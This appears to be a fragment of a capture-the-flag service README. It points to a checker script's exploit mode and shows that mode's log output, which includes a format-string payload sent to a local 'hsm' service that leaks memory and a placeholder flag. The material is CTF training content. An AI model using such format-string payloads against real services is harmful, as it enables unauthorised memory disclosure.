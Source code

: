 For working exploit, see `exploit` mode of `checkers/hsm/checker.py`.
```
$ ./checker.py exploit 127.0.0.1 0
...
2021-11-25 12:00:47,234 Encrypting b'910@\x02\xf6\xdd%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x|%s'
...
2021-11-25 12:00:47,347 Sending GET 'http://127.0.0.1:9000/getmeta' ...
2021-11-25 12:00:47,361 Success, response: '122665554024031679030820336399572910@\x02��4002fb5004027c88c84027c88c4002fb5011400079940040077840400778400313232363635353534303234303331363739303330383230333336333939353732393130|PLAINTEXT_SLOT_1'.
2021-11-25 12:00:47,361 Hacked! Flag: 'PLAINTEXT_SLOT_1'
```